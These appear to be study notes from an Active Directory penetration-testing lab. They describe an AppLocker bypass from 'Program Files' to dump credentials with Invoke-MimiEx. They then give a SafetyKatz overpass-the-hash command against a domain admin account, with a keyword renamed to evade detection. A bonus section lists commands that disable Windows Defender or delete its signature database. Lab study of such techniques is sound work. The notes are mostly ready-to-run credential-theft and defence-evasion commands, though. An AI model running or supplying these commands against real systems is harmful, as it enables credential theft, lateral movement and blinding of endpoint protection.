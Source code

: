 NOTE : We used 'Program files' because we got (using the registry under the Scripts for AppLocker) that previuosly that anyone can exeute scripts or commands in that folder.

And now are navigation to the 'Program FIles' folder we can execute the Invoke-MimiEx and get the credentials of 3 users in which one of them is '**srvadmin' i.e., DCORP-DC machine host.**

Now, here we will use Loader.exe (SafetyKatz) to get the access to the srvadmin machine (for the sake of the multiple methods)

```
C:\Users\StudnetX\ADTools\Loader.exe -Path C:\Users\StudnetX\ADTools\SafetyKatz.exe "sekurlsa::opassth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:KEY /run:cmd.exe" "exit"
```

**NOTE** --> We renamed **pth** to **opassth** to evade some detection which occurs at the time of executing the command.&#x20;

\-----------------------------------------------------------------------------------------------------

&#x20;                                                                                **BONUS SECTION -->**

`Get-MpComputerStatus` - to check if Windows defender is enabled or not.

To edit the registry key to disable DEFENDER (not really recommended..) -

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Microsoft Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

**Disable WINDOWS DEFENDER -->**

The intresting one is `DisableRealtimeMonitoring`, which you can also do by using the `Set-MpPreference` with PS -

```
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```

Another option, which **leaves Defender active** is to simple **delete the signature database**, which you can do with - **(BUT be careful in real-time assessment engagements!)**

```
"C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all
```

Using Command Prompt:

* To disable Windows Defender's real-time monitoring:

```
"C:\Program Files\Windows Defender\MpCmdRun.exe" -disableRealtimeMonitoring
```

Using DISM (Deployment Image Servicing and Management):

* To disable Windows Defender:

```
DISM /Online /Disable-Feature /FeatureName:Windows-Defender /NoRestart
```

